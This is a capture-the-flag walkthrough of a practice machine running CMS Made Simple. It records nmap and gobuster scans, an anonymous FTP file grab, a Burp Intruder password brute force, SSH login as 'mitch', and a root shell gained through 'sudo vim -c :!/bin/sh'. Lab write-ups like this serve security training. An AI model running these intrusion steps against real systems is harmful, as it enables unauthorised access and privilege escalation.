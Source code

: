 Simple CTF Walkthrough
NMAP SCAN
        Nmap scan to get the services and ports that are open
            nmap -A (IP)
                Nmap scan report for 10.10.98.239
        Host is up (0.19s latency).
        Not shown: 997 filtered ports
        PORT     STATE SERVICE VERSION
                21/tcp   open  ftp     vsftpd 3.0.3
        |           ftp-anon: Anonymous FTP login allowed (FTP code 230)
        |_Can't get directory listing: TIMEOUT
        | ftp-syst: 
        |   STAT: 
        | FTP server status:
        |      Connected to ::ffff:10.9.3.102
        |      Logged in as ftp
        |      TYPE: ASCII
        |      No session bandwidth limit
        |      Session timeout in seconds is 300
        |      Control connection is plain text
        |      Data connections will be plain text
        |      At session startup, client count was 1
        |      vsFTPd 3.0.3 - secure, fast, stable
        |_End of status
        80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
        | http-robots.txt: 2 disallowed entries 
        |_/ /openemr-5_0_1_3 
        |_http-server-header: Apache/2.4.18 (Ubuntu)
        |_http-title: Apache2 Ubuntu Default Page: It works
        2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
        | ssh-hostkey: 
        |   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
        |   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
        |_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
        Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

GOBUSTER
        ┌──(kali㉿kali)-[~]
        └─$ gobuster dir -u http://10.10.91.58/ -w /usr/share/dirb/wordlists/common.txt
        ===============================================================
        Gobuster v3.1.0
        by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
        ===============================================================
        [+] Url:                     http://10.10.91.58/
        [+] Method:                  GET
        [+] Threads:                 10
        [+] Wordlist:                /usr/share/dirb/wordlists/common.txt
        [+] Negative Status codes:   404
        [+] User Agent:              gobuster/3.1.0
        [+] Timeout:                 10s
        ===============================================================
        2021/11/25 04:28:47 Starting gobuster in directory enumeration mode
        ===============================================================
        /.htpasswd            (Status: 403) [Size: 295]
        /.hta                 (Status: 403) [Size: 290]
        /.htaccess            (Status: 403) [Size: 295]
        /index.html           (Status: 200) [Size: 11321]
        /robots.txt           (Status: 200) [Size: 929]  
        /server-status        (Status: 403) [Size: 299]  
        /simple               (Status: 301) [Size: 311] [--> http://10.10.91.58/simple/]
                                                                                        
        ===============================================================
        2021/11/25 04:30:16 Finished
        ====================================             
/SIMPLE DIRECTORY
        Directory on the server,   
          Its hard to exploit when there are no user input spaces:
          But an advantage is that on the website content there is a link to login as an administrator; definitely a good rabbit hole
          The website main page it displays what version of CMS system is running on the server. 
          {© Copyright 2004 - 2021 - CMS Made Simple
        This site is powered by CMS Made Simple version 2.2.8}
        Time to do some exploit search
          For this searchsploit works best  
               searchsploit CMS 2.2.8                         
                        CMS Made Simple < 2.2.10 - SQL Injection        | php/webapps/46635.py
                                                                    
          


FTP 
this service allows anonymous login: try to access
Login Credentials: username= anonymous
                    password= NO PASSWORD
    Connected to 10.10.98.239.
        220 (vsFTPd 3.0.3)
        Name (10.10.98.239:kali): anonymous
        230 Login successful.
        Remote system type is UNIX.
lIST OF DIRECTORIES FOUND
        open directory and dowload the text file
        drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 pub
        226 Directory send OK.

        ftp> cd pub
        250 Directory successfully changed.
        ftp> ls
        200 PORT command successful. Consider using PASV.
        150 Here comes the directory listing.
        -rw-r--r--    1 ftp      ftp           166 Aug 17  2019 ForMitch.txt
        226 Directory send OK.
        ftp> cat ForMitch.txt
        ?Invalid command
        ftp> mget *
        mget ForMitch.txt? 
        200 PORT command successful. Consider using PASV.
        150 Opening BINARY mode data connection for ForMitch.txt (166 bytes).
        226 Transfer complete.
        166 bytes received in 0.00 secs (148.3160 kB/s)
        ftp> 
OPEN THE DOWNLOADED FTP FILE
    seems there is a user by the name Mitch,who is one silly person for not using some srong passwords on the system

    Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess
This automatically shows that one can brute-force to get the password


HTTP
Port number 80 Apache home page

BRUTE-FORCE
On a text file gathered from the ftp notice that there is a week password in play
lets brute force using burpsuite.
capture request send to intrude set the necessary then upload the wordlist best110
got a hit on the name secret
credentials for the cms admin login page
        mitch = secret
With the credentials one can try to ssh into the system

SSH

        ┌──(kali㉿kali)-[~]
        └─$ ssh mitch@10.10.91.58 -p 2222                                       148 ⨯ 2 ⚙
        The authenticity of host '[10.10.91.58]:2222 ([10.10.91.58]:2222)' can't be established.
        ECDSA key fingerprint is SHA256:Fce5J4GBLgx1+iaSMBjO+NFKOjZvL5LOVF5/jc0kwt8.
        Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
        Warning: Permanently added '[10.10.91.58]:2222' (ECDSA) to the list of known hosts.
        mitch@10.10.91.58's password: 
        Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

        * Documentation:  https://help.ubuntu.com
        * Management:     https://landscape.canonical.com
        * Support:        https://ubuntu.com/advantage

        0 packages can be updated.
        0 updates are security updates.

        Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
        $ Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
        $ ls
        user.txt
        $ cat user.txt
        G00d j0b, keep up!
        $ 
A second user discovered
        $ pwd
        /home/mitch
        $ cd ..
        $ pwd
        /home
        $ ls
        mitch  sunbath
        $ 

PRIVILEGE ESCALATION


            $ sudo su
            [sudo] password for mitch: 
            Sorry, user mitch is not allowed to execute '/bin/su' as root on Machine.
            $ sudo -l
            User mitch may run the following commands on Machine:
                (root) NOPASSWD: /usr/bin/vim
$ 

mitch can run vim as root without a password
/home/mitch
$ sudo /usr/bin/vim -c ':!/bin/sh'

# ^[[2;2R
/bin/sh: 1: not found
/bin/sh: 1: 2R: not found
# whoami
root
# ls
user.txt
# cat user.txt
G00d j0b, keep up!
# 
# cat /root/root.txt
W3ll d0n3. You made it!
# 


